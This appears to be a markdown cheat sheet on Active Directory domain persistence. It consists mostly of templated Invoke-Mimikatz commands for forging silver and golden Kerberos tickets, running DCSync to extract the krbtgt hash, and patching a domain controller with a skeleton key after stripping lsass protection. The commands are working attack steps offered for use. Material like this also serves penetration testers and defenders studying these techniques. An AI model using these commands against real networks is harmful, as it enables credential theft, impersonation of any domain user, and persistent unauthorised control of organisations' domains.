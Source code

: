 # Domain Persistence

## Silver Ticket
|Tool|Command|Description|
|---|---|---|
|Invoke-Mimikatz|Invoke-Mimikatz -Command '"kerberos::golden /User:\$Username /domain:\$DomainName /sid:\$DomainSID /target:\$ComputerName /service:\$Service /rc4:\$NTLMHash /id:\$UserID /groups:512 /ptt"'|Create service ticket for user \$Username to access \$Service on \$ComputerName (See constrained delegation)|

### Alternate Services
|ServiceName|Command|Description|
|---|---|---|
|HOST|Invoke-Mimikatz -Command '"kerberos::golden /domain:\$DomainName /sid:\$DomainSID /target:\$ComputerName /service:HOST /rc4:\$MachineHash /user:\$Username /ptt"'|Host service allows for scheduled task creation|
|RPCSS|Invoke-Mimikatz -Command '"kerberos::golden /domain:\$DomainName /sid:\$DomainSID /target:\$ComputerName /service:RPCSS /rc4:\$MachineHash /user:\$Username /ptt"'|RPC|
|WSMAN|Invoke-Mimikatz -Command '"kerberos::golden /domain:\$DomainName /sid:\$DomainSID /target:\$ComputerName /service:WSMAN /rc4:\$MachineHash /user:\$Username /ptt"'|WinRM|
|CIFS|Invoke-Mimikatz -Command '"kerberos::golden /domain:\$DomainName /sid:\$DomainSID /target:\$ComputerName /service:CIFS /rc4:\$MachineHash /user:\$Username /ptt"'|File System Access|

## Golden Ticket

|Tool|Command|Description|
|---|---|---|
|Invoke-Mimikatz|Invoke-Mimikatz -Command '"kerberos::golden /User:\$Username /domain:\$DomainName /sid:\$DomainSID /krbtgt:\$krbtgtNTLMHash /id:\$UserRid /groups\$512 /startoffset:0 /endin:600 /renewmax::100800 /ptt"'|Create TGT for \$Username on \$DomainName and pass ticket into current PowerShell process|
|Invoke-Mimikatz|Invoke-Mimikatz -Command '"kerberos::golden /User:\$Username /domain:\$DomainName /sid:\$DomainSID /krbtgt:\$krbtgtNTLMHash /id:\$UserRid /groups\$512 /startoffset:0 /endin:600 /renewmax::100800 /ticket"'| Create TGT for \$Username on \$DomainName and save ticket to file|

## DCSync
- Needs DA Privileges, does not need code execution on the DC

|Tool|Command|Description|
|---|---|---|
|Invoke-Mimikatz|Invoke-Mimikatz -Command '"lsadump::dcsync /domain:\$DomainName /user:krbtgt"'|Use DCSync feature and get krbtgt hash|

## Skeleton Key
- Persistence technique where it is possible to patch a DC to allow access as any user with a single password
- Publicly known methods are not persistent across reboot(s)
- Requires DA privileges
- In case lsass is running as a protected process, you need the mimikatz driver (mimidriv.sys) on disk of the target DC
```
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
!-
```
